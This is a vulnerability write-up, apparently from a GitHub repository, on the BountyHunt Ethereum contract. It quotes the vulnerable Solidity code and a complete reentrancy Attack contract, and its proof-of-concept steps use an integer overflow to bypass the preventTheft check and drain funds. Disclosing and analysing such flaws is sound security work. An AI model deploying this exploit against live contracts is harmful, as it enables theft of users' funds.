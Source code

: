 BountyHunt
=======
https://etherscan.io/address/0xb5766f61911f8b520b0e938aae100834aa3048c6#code

Vulnerability type
------
Integer overflow

Reentry

Abstract
------
A smart contract implement for BountyHunt, allows users to call `grantBounty(address beneficiary, uint amount)` to save ethers as bounty in this contract and appoint the beneficiary who will be able to claim this bounty by calling `claimBounty()`.

For the safety of bounty in this contract, the owner uses modifier `preventTheft` to prevent attacks. However, there exists an integer overflow vulnerability which makes it possible to bypass the modifier `preventTheft`. After that, attackers can exploit the reentry vulnerability to steal bounty stored in this contract.

Related Code
------
    pragma solidity ^0.4.4;

    contract BountyHunt {
      mapping(address => uint) public bountyAmount;
      uint public totalBountyAmount;

      modifier preventTheft {
        _;  
        if (this.balance < totalBountyAmount) throw;
      }

      function grantBounty(address beneficiary, uint amount) payable preventTheft {
        bountyAmount[beneficiary] += amount;
        totalBountyAmount += amount;
      }

      function claimBounty() preventTheft {
        uint balance = bountyAmount[msg.sender];
        if (msg.sender.call.value(balance)()) {
          totalBountyAmount -= balance;
          bountyAmount[msg.sender] = 0;
        }   
      }
      ......
    }
    
Details
------
We can see that in function `claimBounty()` there exists a reentry vulnerability: when user U claims his bounty, the contract firstly sends ethers to U, and after that sets the `bountyAmount` of U to 0. Here, the contract uses `call` function to send ethers, which will cause U excuting its `fallback()` function. If U calls `claimBounty()` again in its `fallback()` when the bountyAmount of U has not been set to 0 yet, U will receive double the ethers he should get.

To prevent this risk, the owner use a modifier `preventTheft`. It assumes that after a function being executed, the balance of this contract should not be less than `totalBountyAmount`, otherwise revert the whole execution. In normal case `totalBountyAmount` keeps track of the balance of this contract, but in reentry attack, when the attacker's `fallback()` calls `claimBounty()` again, `totalBountyAmount` will be larger than `this.balance` at that moment. So, it seems that this modifier can defend against reentry attack.

However, the integer overflow vulnerability in `grantBounty(address beneficiary, uint amount)` makes modifier `preventTheft` lose effectiveness. 

In normal case, when user U calls this function with some balance, it will set `amount` of balance as `beneficiary`'s bounty. The modifier `preventTheft` requires that the balance sending from U should be larger than `amount`. However, there exists an integer overflow vulnerability that will allow U to set `totalBountyAmount` to arbitrary value, and if U sets `totalBountyAmount` to a value smaller enough than the balance of this contract, modifier `preventTheft` will lose its effectiveness, and reentry attack on function `claimBounty()` will hold.

Exploit
------
    contract Attack {
        BountyHunt victim;
        uint256 reentry_time = 0;
    
        uint256 public my_balance;
    
        function setVictim(address target) { victim = BountyHunt(target); }
     
        // deposit Ether to victim
        function step1(uint256 amount) payable{
            if (this.balance > amount) {
                victim.grantBounty.value(amount)(this,amount);
            }
            my_balance = this.balance;
        }
    
        // withdraw Ether
        function step2(uint256 amount) {
            victim.claimBounty();
            my_balance = this.balance;
        }
        
        //reentry attack for only once
        function () payable {
            if (reentry_time == 0) {
                reentry_time += 1;
                victim.claimBounty();
            }
            my_balance = this.balance;
        }
    }
    
    contract BountyHunt{
        mapping(address => uint) public bountyAmount;
        uint public totalBountyAmount;
        modifier preventTheft {
            _;  
            if (this.balance < totalBountyAmount) throw;
        }
        function grantBounty(address beneficiary, uint amount) payable preventTheft {}
        function claimBounty() preventTheft {}
    }

Proof of concept
------
1) A normal user calls grantBounty() with 30 ethers as bounty. `totalBountyAmount` is set to 30 ethers.

![1.png](./picture/1.png "")

2) Attacker sets `victim` in his Attack contract, and calls `step1(uint256 amount)` with 10 ethers and amount = 8 ethers. We can see that 2 ethers are left in Attack contract. 

![2.png](./picture/2.png "")

And the bounty of Attack contract is 8 ethers, `totalBountyAmount` is set to 38 ethers.

![3.png](./picture/3.png "")

3) Attacker calls `grantBounty()` with a well-constructed `amount` to exploit the integer overflow vulnerability and set `totalBountyAmount` to 29 ethers. With this `totalBountyAmount`, the assertion of `this.balance >= totalBountyAmount` will always hold during the excution of `step2()`.

![4.png](./picture/4.png "")

4) Now attacker calls `step2()` to exploit the reentry vulnerability...

![6.png](./picture/6.png "")

 and gets 16 ethers back!

![5.png](./picture/5.png "")

